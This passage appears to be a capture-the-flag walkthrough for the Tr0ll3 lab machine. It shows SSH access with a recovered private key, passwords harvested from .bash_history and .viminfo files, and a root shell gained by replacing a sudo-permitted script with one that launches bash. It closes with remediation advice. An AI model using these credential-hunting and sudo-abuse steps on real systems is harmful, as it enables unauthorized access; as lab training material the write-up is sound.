

When I store it in a file called `id_rsa_maleus`, And I change the permission to `400`:
```shell
$ chmod 400 id_rsa_maleus
```
And I use the `ssh` command:
```shell
$ ssh -i id_rsa_maleus maleus@192.168.2.44
```
Then I get the `maleus` shell:



## Privilege escalation

And I can see that `maleus` belongs to the `backups` group, and there is a binary file in the `maleus`'s home. When I copy that file to my local machine:
```shell
$ scp -i id_rsa_maleus maleus@192.168.2.44:/home/maleus/dont_even_bother .
```
And I decompiled with `Ghidra`, then I can see:



And I can only see one clue or joke:
```
Your reward is just knowing you did it! :-P
```
When I use the `find` command:
```shell
$ maleus@Tr0ll3:~$ find / -group backups -ls 2>/dev/null | \
> grep -v /proc | grep -v /sys | grep -v /run

  924279  4 drwx------   3 maleus   backups   4096 Jun 18  2015 /backups
```
When I check the files in `/backups` directory:
```shell
$ maleus@Tr0ll3:/backups/maleus-backup$ ls -la
-rw-r--r-- 1 maleus root      25 Aug  1  2019 .bash_history
-rw-r--r-- 1 maleus maleus   220 Jun 18  2015 .bash_logout
-rw-r--r-- 1 maleus maleus  3637 Jun 18  2015 .bashrc
-rwxrwxr-x 1 maleus maleus  8674 Jun 18  2015 dont_even_bother
-rw-r--r-- 1 maleus maleus   675 Jun 18  2015 .profile
-rw------- 1 maleus maleus   509 Aug  1  2019 .viminfo
```
And I check the `.bash_history` file:
```
maleus@Tr0ll3:/backups/maleus-backup$ cat .bash_history
passswd
lj(fB#134
passwd
```
When I try to use that password with almost any of the users, then it does not work. When I was checking the difference between each file in the backups, and in the `maleus`'s home, then I notice that the `.viminfo` in the `maleus`'s home is different. When I read it, then I can see a password:



When I try to check the sudo with the password `B^slc8I$`:
```shell
maleus@Tr0ll3:~$ sudo -l
...SNIPPED...
User maleus may run the following commands on Tr0ll3:
    (root) /home/maleus/dont_even_bother
```
Then I can run the `dont_even_bother` file located in the `maleus`'s home, and I can do it with sudo privileges, and that means, I can run anything as long as the file is called like that. When I use `Vim` to create a file called `dont_even_bother`, and I store the following lines:
```bash
#!/bin/bash
bash
```
And I give it execution permissions:
```shell
$ maleus@Tr0ll3:~$ chmod +x dont_even_bother
```
And I run:
```shell
$ maleus@Tr0ll3:~$ sudo /home/maleus/dont_even_bother
```
Then I get the `root` shell, and I get the `root` flag:



## Remediation
Given I find plain text credentials, and I find bad store private keys, and I could crack the `PCAP` file with a list found on the server, and I find credentials in webroot hidden only by a `user-agent` condition, then properly store sensitive information, and check the sudo privileges of the user, and limit what they can run as `sudo`, and check that there are no plain text passwords stored in the `logs`.